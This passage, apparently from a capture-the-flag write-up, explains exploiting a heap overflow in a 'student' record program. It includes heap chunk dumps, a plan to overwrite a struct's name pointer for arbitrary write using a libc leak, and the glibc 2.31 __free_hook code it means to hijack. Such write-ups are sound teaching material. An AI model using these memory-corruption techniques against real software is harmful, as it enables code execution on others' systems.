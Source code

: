 ```
Chunk(addr=0x5555555592a0, size=0x20, flags=PREV_INUSE)
    [0x00005555555592a0     30 00 00 00 00 00 00 00 ff ff ff ff ff ff ff 7f    0...............]
Chunk(addr=0x5555555592c0, size=0x20, flags=PREV_INUSE)
    [0x00005555555592c0     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x5555555592e0, size=0x4141414141414140, flags=PREV_INUSE)  ←  top chunk

```
>:)

Now that we know how we have a heap overflow, how can we use this? Well another apect of the student struct is it stores the `name` pointer which can be written to via `update_name`. So if a student struct is stored AFTER our `name` buffer in memory we can completely overwrite all of its members, including the `name`. Since we also have a leak this is pretty much game over.

If you look at the heap immediately after our unsorted bin shenanigans, you can see that:

```
Chunk(addr=0x55a886bef010, size=0x290, flags=PREV_INUSE)
    [0x000055a886bef010     01 00 01 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55a886bef2a0, size=0x20, flags=PREV_INUSE)
    [0x000055a886bef2a0     00 00 00 00 00 00 00 00 10 f0 be 86 a8 55 00 00    .............U..]
Chunk(addr=0x55a886bef2c0, size=0x510, flags=PREV_INUSE) // name buffer
    [0x000055a886bef2c0     41 41 41 41 41 41 41 41 e0 0b 07 ba f9 7f 00 00    AAAAAAAA........]
Chunk(addr=0x55a886bef7d0, size=0x20, flags=PREV_INUSE) // student stucture for the above name
    [0x000055a886bef7d0     00 00 00 00 00 00 00 00 ff ff ff ff 00 05 00 00    ................]
Chunk(addr=0x55a886bef7f0, size=0x30, flags=PREV_INUSE)
    [0x000055a886bef7f0     00 00 00 00 00 00 00 00 10 f0 be 86 a8 55 00 00    .............U..]
Chunk(addr=0x55a886bef820, size=0x207f0, flags=PREV_INUSE)  ←  top chunk
```

Due to the way we get our leaks, the barrier chunk we allocate as a student is free'd, and is then consumed when we allocate another chunk for the leak AS THAT CHUNK's STUDENT STRUCTURE.

This means that we can overwrite all members of the struct, including the `name` ptr. One thing to be aware of is that you will also smash the `ID`, so you need to set it back to a number/string you know so you can find struct again to overwrite the name.

Another problem I had was I kept overwriting the name length with `0xffffffff`, because of this the `read` syscall in `update_name` was failing since the read length went outside the address space of the program - simply use a smaller value for this.

## What to write?

We have a libc leak, and libc in use is 2.31 which means the various debugging hooks in libc (`__free_hook`, etc...) are still in use. Imma assume you know about these, but if you dont.

```c
void
__libc_free (void *mem)
{
  mstate ar_ptr;
  mchunkptr p;                          /* chunk corresponding to mem */

  void (*hook) (void *, const void *)
    = atomic_forced_read (__free_hook);
  if (__builtin_expect (hook != NULL, 0)) // if __free_hook != 0
    {
      (*hook)(mem, RETURN_ADDRESS (0)); // call whatever is there
      return;
    }
```
